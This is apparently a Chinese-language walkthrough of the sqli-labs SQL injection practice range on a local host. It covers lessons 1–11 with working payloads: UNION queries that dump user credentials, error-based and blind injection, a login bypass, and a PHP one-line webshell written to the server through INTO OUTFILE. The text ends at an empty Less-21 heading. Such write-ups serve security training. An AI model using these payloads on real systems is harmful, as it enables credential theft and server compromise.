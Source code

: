 ### 安装配置

网上资料很多，自行安装即可！

我这边 phpstudy 注册的靶场域名是 `sqli:10001`

<br>

### Less-1 基于单引号字符型注入

#### 前期探测

我们先为 id 传入一个 1，发现可以正常的获取数据  
`http://sqli:10001/Less-1/?id=1`

![](../imgs/target/sqli/s11.png)

但是传入 0 时发现什么都没有！证明该数据表 id 列的最小边界值为 1  
`http://sqli:10001/Less-1/?id=0`

<br>

union 联合查询有一个特性，就是前后列数不一致时会返回报错信息，我们可以根据该报错信息来调整查询列数直到正好碰上正确的列数！

这里为了方便我们直接去看原始数据库，发现 users 表内仅有 3 列，故 union 查询时也需要 3 列！

![](../imgs/target/sqli/s12.png)

<br>

#### union

查询当前数据库名称：

1. 由于 union 会拼接前后查询结果，故令前面的 id=0 使得查询不出结果，就只能显示后面的结果了
2. 注意两次查询的列数一致性！
3. database()是获取当前数据库名称的一个方法
4. --+不多说，注释掉后面的所有代码

`http://sqli:10001/Less-1/?id=0' union select 1,2,database() --+`

![](../imgs/target/sqli/s13.png)

<br>

查询 users 表下的所有用户名及其密码：

1. `group_concat(username)` 表示将 users 表中的列 username 下的所有数据压缩成一行来显示
2. `group_concat(password)` 作用同上
3. `from users` 注意我们要提取的表名称！

`http://sqli:10001/Less-1/?id=0' union select 1,group_concat(username),group_concat(password) from users --+`

![](../imgs/target/sqli/s14.png)

<br>

concat_ws 的使用  
语法：concat_ws(spet,str1,str2)，spet 为分隔符，使用 16 进制表示，str1 和 str2 就是相互连接的两个字符串

`http://sqli:10001/Less-1/?id=0' union select 1,(select group_concat(concat_ws(0x7e,username,password))from users),3 --+`

<br>

### Less-2 基于错误的整型注入

即 `id=1 and 1=1 --+`

<br>

### Less-3 基于错误的单引号变形字符型注入

即 `id=1') and 1=1 --+`

<br>

### Less-4 基于错误的双引号变形字符型注入

即 `id=1") and 1=1 --+`

<br>

### Less-5 基于单引号字符型的错误回显注入

> 基于 updatexml 函数的解释，请看我的另一篇文章 QWQ

通关密钥：`id=1' union select updatexml(666,concat('~',(select user())),'good luck') -- zhiyiyi`

<br>

### Less-6 基于双引号字符型的错误回显注入

通关密钥：`http://sqli:10001/Less-6/?id=1" union select updatexml(666,concat('~',(select database())),'good luck') -- zhiyiyi`

<br>

### Less-7 文件导入方式注入

主流平台文件结构  
winserver 的 IIS 默认路径`c:\Inetpub\wwwroot`  
linux 是`/usr/local/nginx/html，/home/wwwroot/default，/usr/share/nginx，/var/www/htm`  
apache 是`.../var/www/htm，.../var/www/html/htdocs`  
phpstudy 是`...\PhpStudy20180211\PHPTutorial\WWW\`  
xammp 是`...\xampp\htdocs`

<br>

首先查询得到网站文件的保存绝对路径，之后编写一句话木马并使用 outfile 将文件上传到服务器  
中国菜刀链接  
`?id=1')) union select 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile "xxxx\\demo.php"--+`

<br>

### Less-8 布尔单引号盲注

单字符直接注意推测爆破即可  
逐一判断直到所有字符都对上数据库名称即可！  
`?id=1' and left((select database()),1)='c' -- -`

<br>

### Less-9 时间单引号盲注

如果数据库坐起第一个字符等于 s，那么就睡 3 秒，否则立即返回真  
如果撞对了，睡 3 秒直接就可以感觉出来，如果不行的话自行打开 f12 查看网络部分的延迟毫秒数  
`?id=1' and if(left(database(),1)='s' , sleep(3), 1) --+`

爆表  
`?id=1' and if(left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='k' , sleep(3), 1) --+`

<br>

### Less-10 时间双引号盲注

和 less9 一样，只不过单引号改为双引号而已

<br>

### Less-11 错误 POST 单引号注入

burp 抓包，发现存在三个 post 参数：uname、password、submit；  
我们尝试对 uname 进行注入  
发现使用以下代码可以成功登入，即存在注入漏洞  
`uname=admin' and 1=1 -- - &passwd=admin&submit=Submit`

之后使用 extractvalue 进行爆表爆列的操作了

<br>

### Less-21
